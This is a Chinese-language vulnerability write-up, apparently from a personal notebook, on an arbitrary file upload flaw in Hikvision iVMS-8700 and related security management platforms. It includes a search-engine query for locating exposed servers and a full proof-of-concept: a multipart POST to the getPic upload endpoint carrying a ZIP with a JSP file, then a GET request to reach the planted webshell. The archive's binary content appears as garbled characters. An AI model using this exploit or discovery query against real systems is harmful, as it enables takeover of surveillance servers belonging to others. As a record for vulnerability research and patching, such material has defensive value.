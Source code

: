 # 海康威视iVMS-8700综合安防管理平台 getPic任意文件上传

# 一、漏洞简介
  海康威视iVMS集中监控应用管理平台，是以安全防范业务应用为导向，以视频图像应用为基础手段，综合视频监控、联网报警、智能分析、运维管理等多种安全防范应用系统，构建的多业务应用综合管理平台。HIKVISION iVMS-8700综合安防管理平台存在任意文件上传漏洞，攻击者通过发送特定的请求包可以上传Webshell文件控制服务器。

# 二、影响版本
+ 海康威视综合安防系统iVMS-5000
+ 海康威视综合安防系统 iVMS-8700
+ 海康威视综合安防系统iVMS-5200

# 三、资产测绘
+ hunter：`web.body="/views/home/file/installPackage.rar"`||`web.body="/home/locationIndex.action"`

![1691851218187-fa3d0a98-32b2-48ea-a294-7c7f565c20f0.png](./img/tT8w_7HnoiK20c6Y/1691851218187-fa3d0a98-32b2-48ea-a294-7c7f565c20f0-200941.png)

+ 登录页面：

![1691851119101-58fb28dd-18f8-4fca-b027-9931d8ce0111.png](./img/tT8w_7HnoiK20c6Y/1691851119101-58fb28dd-18f8-4fca-b027-9931d8ce0111-915060.png)

![1702013270650-1660293d-021f-41a6-971a-543f1d8f45f9.png](./img/tT8w_7HnoiK20c6Y/1702013270650-1660293d-021f-41a6-971a-543f1d8f45f9-696099.png)

# 四、漏洞复现
1.生成一个压缩文件，目录结构如下。

[output.zip](https://www.yuque.com/attachments/yuque/0/2024/zip/1622799/1709222237243-e5b9be7c-d2be-4914-a958-6913ff81ae5e.zip)

![1702013473674-dacbf15c-db9f-405d-aad7-89d64bc619da.png](./img/tT8w_7HnoiK20c6Y/1702013473674-dacbf15c-db9f-405d-aad7-89d64bc619da-856266.png)

![1702013924779-909124a7-12aa-4d40-93e8-a492fd759f30.png](./img/tT8w_7HnoiK20c6Y/1702013924779-909124a7-12aa-4d40-93e8-a492fd759f30-760894.png)



2. poc

```java
POST /msp/home/upload.action;getPic?&type=ios HTTP/1.1
Accept-Encoding: gzip, deflate
User-Agent: MicroMessenger
Content-Type: multipart/form-data; boundary=00content0boundary00
Host: xx.xx.xx.xx
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Content-Length: 1288
Connection: close

--00content0boundary00
Content-Disposition: form-data; name="type"

ios
--00content0boundary00
Content-Disposition: form-data; name="file"; filename="stc.ipa"

PK     z¦nW               test1/test/PK    xäVM(?jù        test1/test/.DS_StoreíÁJÃ@Eïº¥Ë|Ð?eBÀµÖJ]¤M(ê:¦ÿãO4¹¥-
¡Ýµô,Î÷&y$$ó fü=®¦6í`Æ{C¾î&k| Ä<îñó «ýÏmå_XîÔ_£.g£â½×ëä¡Üyåý¤¬&|X/ÿ¿ÃùÓ£òëÏÃkù)²ZÌÂ{B!v1\ßo ûÿÎé&Ú0nédk£3:§àö¶tB§´£3:§hÃûX:¡SÚÑCÑÃUëÖÿÇð		!.
øÂ6,×p¶iú ÷³îº±!NPK     ¦nW               test1/test/PetrelHD.app/PK    Ó¤nW¦ëd   j      test1/test/ceshi.jspÈM
Â@Ð«¸)L\R« ®EOôC#af¦íõû³|ïR¥Á9n1´ÍùtÜ·us¨©v?5ñM
Ar6}kü? vÿÿÞ×{¢ßøEÔU×PK     t¦nW               test1/PK?      z¦nW             $             test1/test/
         ó¯UùÚ                PK?     xäVM(?jù      $          )   test1/test/.DS_Store
          ¹,E®Ù                PK?      ¦nW             $       0   T  test1/test/PetrelHD.app/
         Ð!pùÚ                PK?     Ó¤nW¦ëd   j    $            test1/test/ceshi.jsp
         ö¨Ë|÷Ú                PK?      t¦nW             $             test1/
         *|{NùÚ                PK      ë  D    
--00content0boundary00--
```

![1702013640375-50b7b597-ac3d-47fc-9d0b-5a0f46eb0ebe.png](./img/tT8w_7HnoiK20c6Y/1702013640375-50b7b597-ac3d-47fc-9d0b-5a0f46eb0ebe-732434.png)

上传文件位置

```java
GET /msp/upload/ios/{filename}/test1/test/ceshi.jsp HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: MicroMessenger
Connection: close
Cookie: JSESSIONID=9534BB058003BD8772529364EF5E034E
Accept-Encoding: gzip, deflate
```

![1702013781703-4705dcab-3ba9-4e0a-a398-299f29f7f5e1.png](./img/tT8w_7HnoiK20c6Y/1702013781703-4705dcab-3ba9-4e0a-a398-299f29f7f5e1-998648.png)

![1702013887570-7fa4d933-987d-4d21-9949-797bf5b53a2d.png](./img/tT8w_7HnoiK20c6Y/1702013887570-7fa4d933-987d-4d21-9949-797bf5b53a2d-382674.png)



> 更新: 2024-02-29 23:57:17  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ore95852gqp60g63>